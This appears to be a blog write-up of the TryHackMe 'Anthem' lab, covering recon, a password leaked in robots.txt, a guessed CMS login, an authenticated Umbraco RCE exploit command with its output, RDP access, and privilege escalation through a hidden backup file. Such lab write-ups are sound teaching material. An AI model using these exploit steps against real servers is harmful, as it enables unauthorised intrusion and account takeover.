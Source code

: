 ```yaml
---
title: Anthem - TryHackMe
date: 2024-06-22
author: Habukhan
categories: [TryHackMe]
tags: [Hacking, CTFs, THM]
image: https://i.ibb.co/fqf0HnY/Copie-de-Manager-1.png
---
```


Anthem on TryHackMe is an easy Windows machine for beginners. Exploitation involves discovering passwords in web files, accessing an Umbraco CMS, using an RCE exploit to obtain a shell, and finding and using an administrator password for privilege escalation.

* [The Best Academy to Learn Hacking.](https://academy.hackthebox.com/?gspk=YWJkb3VsYXllZGlhbGxvODE2NQ&gspk=YWJkb3VsYXllZGlhbGxvODE2NQ&gsxid=64YiTlSvC64p&gsxid=lN1e33sf4tor&pscd=affiliate.hackthebox.com&pscd=affiliate.hackthebox.com&utm_campaign={affiliate}&utm_campaign={affiliate})
* [Beginner Friendly challenges on TryHackMe.](https://tryhackme.com/signup?referrer=61e8a27ddd3f3b00496505d1)

## Reconnaissance

With a quick scan of nmap, we found these 2 ports which are open
```bash
└─# /home/blo/tools/nmapautomate/nmapauto.sh $ip
Scanning 10.10.26.182 [65535 ports]
Discovered open port 3389/tcp on 10.10.26.182
Discovered open port 80/tcp on 10.10.26.182
```

* RDP open on 3389
* A website Available on port 80
In the website I find the file /robots.txtwhich contains a password UmbracoIsTheBest!, So now I have to find a user for this password

* In the Blog we find a poem with the following words:
```plaintext
Born on a Monday,
Christened on Tuesday,
Married on Wednesday,
Took ill on Thursday,
Grew worse on Friday,
Died on Saturday,
Buried on Sunday.
That was the end…       
```
I copy this text and I do a search on Google, then I find that the user who made the poem is called Solomon Grundywith reference to the email which is in the We are Hiring which is: JD@anthem.com, that is to say that it's the email of Jane Doe, so the same case here is to take the first letter of the user Solomon Grundyand it will be SG@anthem.comand to access with the password UmbracoIsTheBest!that I had already found.

## L’acces Initial
Ok, now I have administrator access to the CMS.
Whenever I find a CMS, I always start by checking Google for exploits

So by doing some research I found an [Exploit on Github ](https://github.com/noraj/Umbraco-RCE)

![Anthem - TryHackMe](https://i.ibb.co/9T90bDT/exploit.png)

The exploit works, so I'll list the files available with it powershelland the commandls
```bash
└─# python3 umbraco.py -u SG@anthem.com -p 'UmbracoIsTheBest!' -i http://10.10.74.33/ -c powershell.exe -a 'ls'


    Directory: C:\windows\system32\inetsrv


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       05/04/2020     21:51                Config                                                                
d-----       05/04/2020     21:51                de-DE                                                                 
d-----       05/04/2020     11:27                en                                                                    
d-----       05/04/2020     11:27                en-US                                                                 
d-----       05/04/2020     21:51                es-ES                                                                 
d-----       05/04/2020     21:51                fr-FR                                                                 
d-----       05/04/2020     21:51                it-IT                                                                 
d-----       05/04/2020     21:51                ja-JP                                                                 
d-----       05/04/2020     21:51                ko-KR                                                                 
d-----       05/04/2020     21:51                ru-RU                                                                 
d-----       05/04/2020     21:51                zh-CN                                                                 
d-----       05/04/2020     21:51                zh-TW                                                                 
-a----       05/04/2020     11:27         119808 appcmd.exe                                                            
-a----       15/09/2018     08:14           3810 appcmd.xml                                                            
-a----       05/04/2020     11:27         181760 AppHostNavigators.dll                                                 
-a----       05/04/2020     11:26          80896 apphostsvc.dll                                                        
-a----       05/04/2020     11:27         406016 appobj.dll                                                            
-a----       05/04/2020     11:26         131072 aspnetca.exe                                                          
-a----       05/04/2020     11:27          40448 authanon.dll                                                          
-a----       05/04/2020     11:26          24064 cachfile.dll                         
```
From here we can create a shell in .ps1, then put it on the machine and have a Shell. But also as the RDP is already open, then I will see which users are available

```bash
└─# xfreerdp /v:10.10.77.208 /u:SG /p:UmbracoIsTheBest! /sec:tls
[01:11:11:148] [31485:31486] [WARN][com.freerdp.crypto] - Certificate verification failure 'self-signed certificate (18)' at stack position 0
[01:11:11:148] [31485:31486] [WARN][com.freerdp.crypto] - CN = WIN-LU09299160F
[01:11:19:471] [31485:31486] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[01:11:19:472] [31485:31486] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
```
![Anthem - TryHackMe](https://i.ibb.co/FwwBvdk/a1.png)
I find the user flag in the OfficeTHM{NOOT_NOOT}

# Privilege Escalation
Now finished with the user, we must therefore elevate our privileges and be root on the Machine. In the room, I am given a hint about the admin password by saying it's hidden. So I will display all the cached files on the machine
![Anthem - TryHackMe](https://i.ibb.co/sRCWFsd/a2.png)
Coming back to my C:\I find a new Folder called backupand a file restore.
![Anthem - TryHackMe](https://i.ibb.co/GpPw2V4/a3.png)
I didn't have the necessary permissions to open this file, so I was able to modify it in the properties and then display the contents:
![Anthem - TryHackMe](https://i.ibb.co/2FwSswt/a4.png)
I use the administrator password to log in cmdand it works:
![Anthem - TryHackMe](https://i.ibb.co/g4D8Wqr/a5.png)

# Additional Resources

Here are some additional resources you might find helpful:

* [Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution](https://www.exploit-db.com/exploits/46153)
* [Nishang PowerShells](https://github.com/samratashok/nishang/tree/master/Shells)